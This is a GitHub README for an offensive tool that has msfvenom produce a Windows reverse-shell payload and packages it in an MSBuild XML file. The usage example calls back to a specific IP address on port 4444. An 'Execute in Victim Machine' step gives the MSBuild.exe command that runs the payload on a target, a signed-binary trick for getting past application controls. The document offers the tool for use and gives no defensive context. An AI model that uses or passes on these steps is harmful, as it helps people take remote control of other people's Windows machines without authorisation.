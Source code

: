 # MSBuild ShellCode Runner

**Credits:**
Thanks to [ired.team](https://www.ired.team/) for publishing an article using msbuild to run C#. I just made this to automate the process of shellcode creation from `msfvenom`

[https://www.ired.team/offensive-security/code-execution/using-msbuild-to-execute-shellcode-in-c](https://www.ired.team/offensive-security/code-execution/using-msbuild-to-execute-shellcode-in-c)

## Installation
Install the metasploit framework first before using this

```bash
git clone https://github.com/jmrcsnchz/msbuild-shellcode.git
```
```bash
pip3 install argparse
```
```bash
cd msbuild-shellcode
```
```bash
python3 build.py -h

usage: build.py [-h] -x PAYLOAD -l LHOST -p LPORT [-a ARCH]

optional arguments:
  -h, --help            show this help message and exit
  -x PAYLOAD, --payload PAYLOAD
                        Payload
  -l LHOST, --lhost LHOST
                        LHOST
  -p LPORT, --lport LPORT
                        LPORT
  -a ARCH, --arch ARCH  Architecture (x86)
```

## Usage



```bash
python3 build.py -a x86 -x windows/shell_reverse_tcp -l 130.205.34.70 -p 4444
```
![](https://i.ibb.co/mS9zJFJ/Untitled.png)
## Execute in Victim Machine
```cmd
C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe C:\random\path\bad.xml
```

## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.
